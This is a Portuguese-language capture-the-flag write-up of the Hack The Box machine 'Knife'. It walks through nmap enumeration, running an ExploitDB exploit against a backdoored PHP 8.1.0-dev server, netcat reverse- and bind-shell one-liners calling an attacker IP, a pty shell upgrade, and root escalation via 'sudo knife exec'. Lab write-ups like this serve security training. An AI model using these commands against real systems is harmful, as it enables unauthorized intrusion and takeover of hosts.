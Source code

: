 Knife
========================

## Enumeration
  Enumerar as portas e serviços que o servidor está rodando:

    sudo nmap -Pn -A -sS -T4 10.10.10.242
    PORT   STATE SERVICE VERSION
        22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
        |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
        |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
        80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
        |_http-server-header: Apache/2.4.41 (Ubuntu)
        |_http-title:  Emergent Medical Idea
        
        
Ao identificar as versões de cada serviço rodando na máquina, fomos procurar por m exploit

    searchsploit 2.4.41
    
   Nada relevante encontrado. 
   
   Verificar o que tem na porta web aí (porta 80):
   
   PHP/8.1.0-dev
   
   ![qownnotes-media-BUTYeL](../../../media/qownnotes-media-BUTYeL.png)

Mais uma versão encontrada. Procurar novamente no searchsploit:

    searchsploit 8.1.0-dev

   ![qownnotes-media-kGNWGA](../../../media/qownnotes-media-kGNWGA.png)

## Exploitation

Encontrado um exploit. Rodando o exploit:

    searchsploit -p php/webapps/49933.py
    (Verificar o funcionamento do exploit primeiramente)
    python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
    Enter the full host url:
    http://knife.htb
    $
  
  Objetivo aqui é conseguir uma shell melhor ao invés da webshell. Reconhecendo o alvo:
  
  Referência:
  Linux
  https://gtfobins.github.io/ 
  Windows
  https://lolbas-project.github.io/#
  
      ls /usr/bin
 A ideia aqui foi enumerar todos os binários presentes no servidor,  no intutio de encontrar algum que possa nos ajudar a enontrar a conseguir a shell reversa. 
 
 **Detalhe aqui que o awk não funcionou e ainda não descobri o porquê**
             (reverso)
             
       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.74 80 >/tmp/f
 
   (bind)
   
      rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 2222 >/tmp/f    
      
      
Com o comando acima foi possível obter a shell reversa com o netcat tradicional.

Próximo passo é conseguir a shell full terminal

    python3 -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    
## Privilege Escalation

Prmeiro obter informações a respeito do sistem operacional;

    (cat /proc/version || uname -a ) 2>/dev/null
    
    Linux version 5.4.0-80-generic (buildd@lcy01-amd64-030) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021
    
    lsb_release -a 2>/dev/null
    Distributor ID: Ubuntu
    Description:    Ubuntu 20.04.2 LTS
    Release:        20.04
    Codename:       focal

    
Feito isso, procurar por exploits de kernel:

    searchsploit "ubuntu 20.04"
    searchsploit Ubuntu
    searchsploit 9.3.0
    
Nada encontrado. O que de fato resolveu o problema foi ter ideintficado um binário que pode ser executado em modo root sem senha por meio do comando sudo. Para isto, executei o seguinte;

    sudo -l
    
![qownnotes-media-DnSWny](../../../media/qownnotes-media-DnSWny.png)

Uma vez identificado o binário "knife", fui buscar referências dele para entender como eu poderia executar um comando no ssistema por meio deste cara. Foi assim que descobri o knife exec -E

    sudo knife exec -E 'system("/bin/bash")'
    
 ![qownnotes-media-UuHOTG](../../../media/qownnotes-media-UuHOTG.png)





